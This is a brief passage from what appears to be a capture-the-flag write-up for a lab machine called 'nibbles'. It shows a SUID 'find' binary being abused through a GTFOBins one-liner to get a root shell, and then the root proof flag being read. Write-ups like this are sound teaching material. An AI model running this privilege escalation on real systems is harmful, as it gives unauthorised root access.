 Looking up the [`find` binary in GTFOBins](https://gtfobins.github.io/gtfobins/find/) we learn that its pretty easy to get a privileged shell when `find` has SUID:

```
postgres@nibbles:/home/wilson$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# whoami
whoami
root
```

We go looking for our flag where we expect it:

```
# cd /root
cd /root
# cat proof.txt
cat proof.txt
588e339021456e249c0f5df4bfb88f20
```

We win!